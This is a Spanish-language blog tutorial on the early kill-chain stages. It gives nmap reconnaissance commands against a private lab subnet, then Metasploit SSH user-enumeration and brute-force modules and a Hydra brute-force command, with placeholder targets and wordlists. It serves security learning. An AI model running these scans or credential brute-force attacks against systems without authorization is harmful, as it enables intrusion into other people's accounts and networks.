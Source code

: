 ```yaml
---
title: Kill Chain:Primeras etapas en un Ataque
date: 2024-10-03 00:00:00 -05:00
categories: [Kill chain]
tags: [kill, ssh, nmap]  # TAG names should always be lowercase
---
```



Dentro del contexto del Killchain, se emplea NMAP en el entorno de Kali-Linux. Nmap, una utilidad de código abierto en línea de comandos para sistemas Linux, se destaca por su capacidad para realizar escaneos detallados de direcciones IP y puertos dentro de una red. Su funcionalidad radica en la habilidad de identificar no solo la presencia de servicios y aplicaciones en un sistema, sino también en detectar posibles vulnerabilidades que podrían ser explotadas.

#### **1. RECONOCIMIENTO**

Durante la fase de reconocimiento, los atacantes pueden utilizar diversas técnicas, como el escaneo de puertos con herramientas como Nmap, la búsqueda de información en redes sociales, la recolección de correos electrónicos de empleados, entre otros métodos de obtención de información. Este paso es crucial para planificar y ejecutar con éxito un ataque, ya que proporciona una visión detallada del objetivo y sus posibles puntos débiles.
```bash
sudo nmap -sn 10.0.2.0/24
```

Escaneado puertos por default de servicios conocidos:
```bash
sudo nmap -p 21,22,80,443 10.0.2.4
```

Verificamos la versión del servicio del puerto 22:
```bash
sudo nmap -sV -p 22 10.0.2.4
```

#### **2. EXPLOTACION**

Durante esta fase, se convierten las vulnerabilidades descubiertas en armas efectivas que pueden ser desplegadas contra un objetivo específico. Esto implica la adaptación de exploits, malware u otros medios maliciosos para su uso en un ataque, con el objetivo de lograr acceso no autorizado a sistemas, robo de información sensible o interrupción de servicios. La weaponization es una parte crucial en la ejecución de un ataque cibernético exitoso, ya que transforma la información recopilada en acciones concretas para comprometer la seguridad de un sistema o red.

Para explotar el servicio ssh como enumerar usuarios a través del servicio SSH en un objetivo específico ejecutamos:
```bash
use auxiliary/scanner/ssh/ssh_enumusers #Selecciona el módulo ssh_enumusers en Metasploit, que se utiliza para enumerar usuarios configurados en el servicio SSH de un sistema remoto.
set RHOSTS [IP_ADDRESS] #Establece la dirección IP del objetivo al que deseas escanear para encontrar los usuarios configurados en el servicio SSH.
set USER_FILE [ruta_al_diccionario_de_usuarios] #Define la ruta al diccionario de usuarios que se utilizará para intentar descubrir los nombres de usuario configurados en el servicio SSH del objetivo.
run #Ejecuta el módulo ssh_enumusers, que intentará enumerar los usuarios configurados en el servicio SSH del objetivo utilizando el diccionario de usuarios proporcionado.
```

Este módulo realiza un ataque de fuerza bruta contra el servicio SSH ejecutamos:

```bash
set USER_FILE [ruta_al_diccionario_de_usuarios] #Establece la ruta al diccionario de usuarios que se utilizará en un escaneo o ataque. Este comando es comúnmente utilizado en módulos de fuerza bruta para probar combinaciones de nombres de usuario y contraseñas.
set PASS_FILE [ruta_al_diccionario_de_contraseñas] #Define la ruta al diccionario de contraseñas que se utilizará en un ataque de fuerza bruta para probar múltiples contraseñas.
use auxiliary/scanner/http/http_login #Un módulo de Metasploit que se usa para realizar un escaneo de fuerza bruta en formularios de inicio de sesión HTTP.
use auxiliary/scanner/ssh/ssh_login #Módulo de Metasploit para realizar un escaneo de fuerza bruta en el servicio SSH.
hydra -l [usuario] -P [ruta_al_diccionario_de_contraseñas] [servicio] #Comando para ejecutar Hydra, una herramienta de fuerza bruta, con un diccionario de contraseñas específico y un usuario dado contra un servicio específico.
```